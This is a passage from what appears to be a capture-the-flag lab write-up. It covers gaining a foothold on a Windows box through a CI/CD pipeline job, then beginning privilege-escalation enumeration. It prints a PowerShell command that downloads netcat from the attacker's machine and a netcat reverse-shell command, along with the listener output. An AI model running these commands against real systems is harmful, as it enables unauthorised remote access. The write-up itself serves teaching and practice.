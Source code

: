#### Deploy

Now back in Pipelines, I’ll select the CICD job for the project I uploaded into (Alpha), and run the build job, giving it the branch I created:

![image-20200822212414083](https://0xdfimages.gitlab.io/img/image-20200822212414083.png)

About 30 seconds later the job completes and the shell is there:

![image-20200822094517569](https://0xdfimages.gitlab.io/img/image-20200822094517569.png)

And it has execution:

![image-20200822212520948](https://0xdfimages.gitlab.io/img/image-20200822212520948.png)

### Shell

I’ll start a local Python webserver and then upload `nc64.exe` using the following command: `powershell -c wget 10.10.14.24/nc64.exe -outfile \programdata\nc.exe`.

Now I’ll get a shell by running `\programdata\nc.exe -e cmd.exe 10.10.14.24 443`:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.203.
Ncat: Connection from 10.10.10.203:49987.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>

```

## Priv: iis –> robisl

### Enumeration

Before uploading an enumeration script like [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS), I always explore the system a bit. No interesting directories at the root of C. Two potential users on the box, restorer and robisl:

```

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 32D6-9041

 Directory of c:\Users

2020-07-07  17:53    <DIR>          .
2020-07-07  17:53    <DIR>          ..
2020-03-28  15:59    <DIR>          .NET v4.5
2020-03-28  15:59    <DIR>          .NET v4.5 Classic
2020-07-22  01:02    <DIR>          Administrator
2020-03-28  15:01    <DIR>          Public
2020-07-22  01:11    <DIR>          restorer
2020-07-08  19:22    <DIR>          robisl
               0 File(s)              0 bytes
               8 Dir(s)  10420121600 bytes free

```